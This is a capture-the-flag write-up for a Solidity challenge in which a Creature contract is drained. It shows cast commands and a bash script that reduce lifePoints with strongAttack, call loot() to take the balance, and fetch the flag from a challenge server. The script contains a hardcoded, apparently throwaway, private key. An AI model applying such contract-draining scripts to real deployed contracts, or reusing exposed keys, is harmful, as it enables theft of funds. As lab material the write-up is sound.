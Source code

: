 # Survival of the fittest

We are provided with two Solidity contracts, `Setup.sol` and `Creature.sol`. The goal of this challenge is to interact with the Creature contract deployed by the Setup contract and drain its life points to trigger the `loot` function and obtain the flag.

## Contract Overview
### Setup.sol
`Setup.sol` is the main contract used to set up the challenge. It does the following:

1. Requires 1 Ether to be sent upon deployment.
2. Creates an instance of the `Creature` contract and stores it as `TARGET`.
3. Provides a `isSolved` function to check if the challenge is solved.

### Creature.sol
`Creature.sol` represents the creature with life points that you need to attack and eventually loot. It has the following functions:

* `strongAttack(uint256 _damage)`: Deals damage to the creature.
* `punch()`: Deals 1 damage to the creature.
* `loot()`: Allows you to loot the creature's balance when its life points reach 0.

## Solution

1. Find vulnerable function

When looking through the `loot()` function, we can see something fishy. 
```solidity
function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }
```
This will check if the `lifePoints` is equal to 0. If it is NOT equal, it returns that the `"Creature is still alive!"`. 

But when lifePoints are 0, it will transfer the entire balance of the current contract `(address(this))` to the `msg.sender`.

AKA, transfer us all of the money 😎

2. Now we need to find a way for us to make our `lifePoints` to 0.

This can be done with either the `punch()` function
```solidity
function punch() external {
        _dealDamage(1);
    }
```
or the `strongAttack(uint256 _damage)` function
```solidity
function strongAttack(uint256 _damage) external{
        _dealDamage(_damage);
    }
``` 
where both of these will call the `dealDamage(uint256 _damage)` function where it will reduce the `lifePoints` to `-= _damage;`
```solidity
function _dealDamage(uint256 _damage) internal {
        aggro = msg.sender;
        lifePoints -= _damage;
    }
```

2. Check Initial Life Points

I will use the cast call command to check the initial life points of my wallet. We should have 20.
```bash
cast call *targetadress* "lifePoints()" --rpc-url https://x.x.x.x/rpc
```

3. Attack!!

Then to leak the flag we will make a loop that will run 20 times with using the `strongAttack` function where we set the `_damage` to 1, until we have a lifepoint of 0.  
```bash
for ((i=0; i<20; i++)); do
    cast send *targetadress* "strongAttack(uint256)" 1 --rpc-url https://x.x.x.x/rpc --private-key *privatekey*
done
```

4. Loot the Creature

Once the creature's life points reach 0, we can use the loot function to obtain its balance.

```bash
cast send *targetadress* "loot()" --rpc-url https://x.x.x.x/rpc --private-key *privatekey*
```

5. Obtain the Flag
Either go to your web browser and go to the `/flag` endpoing or use `curl` to retrieve the flag.

```bash
curl -s "$url/flag"
```

And the solution I made is this script where we just pass in the url, privatekey and target address as a variable.
```bash
#!/bin/bash

target_adress=0x0cE6FDF176e76B287b1B22FcC24E0a4a4DdB3FE9
private_key=0xdbcef11a58213e62451d140c64ba3fb7a715570a4ea9772d7eeab2d075ddbf12

cast call $target_adress "lifePoints()" --rpc-url http://167.172.62.51:31520/rpc

for ((i=0; i<20; i++)); do
    cast send $target_adress "strongAttack(uint256)" 1 --rpc-url http://167.172.62.51:31520/rpc --private-key $private_key
    cast call $target_adress "lifePoints()" --rpc-url http://167.172.62.51:31520/rpc
done

cast send $target_adress "loot()" --rpc-url http://167.172.62.51:31520/rpc --private-key $private_key

curl -s "http://167.172.62.51:31520/flag"
echo 
```

But it could be narrowed down to these commands
```bash
cast call $target_adress "lifePoints()" --rpc-url http://167.172.62.51:31520/rpc
```
```bash
cast send $target_adress "strongAttack(uint256)" 1 --rpc-url http://167.172.62.51:31520/rpc --private-key $private_key
s
```
```bash
cast send $target_adress "loot()" --rpc-url http://167.172.62.51:31520/rpc --private-key $private_key
```
```bash
curl -s "http://167.172.62.51:31520/flag"
```